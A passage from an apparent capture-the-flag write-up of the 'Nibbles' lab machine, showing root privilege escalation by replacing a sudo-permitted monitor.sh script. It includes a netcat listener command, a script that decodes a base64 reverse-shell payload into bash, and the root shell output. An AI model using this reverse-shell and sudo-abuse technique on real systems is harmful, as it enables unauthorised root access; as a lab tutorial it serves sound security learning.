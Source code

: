 We can execute the `monitor.sh` script in `/home/nibbler/personal/stuff`! In
fact, it would be the location of the `monitor.sh` file we just inspected if we
unzipped `personal.zip` in our home folder.

## Privilege escalation (Sudo permissions)

Since we can execute `/home/nibbler/personal/stuff/monitor.sh` as `root` and
that we have control over this path, we simply have to create our own
`monitor.sh` Bash script at this location to execute it as `root`!

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

### Exploitation

Let's create the `/personal/stuff` directory in our home folder.

Then, let's place a `monitor.sh` file in this new directory containing our
payload:

```sh
#!/bin/bash

/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i
```

I'll also make it executable.

Finally, let's abuse our `sudo` permissions to execute it as `root`:

```sh
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo "/home/nibbler/personal/stuff/monitor.sh"
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 60798
<SNIP>
root@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image#
```

It caught the reverse shell!

### Stabilizing the shell
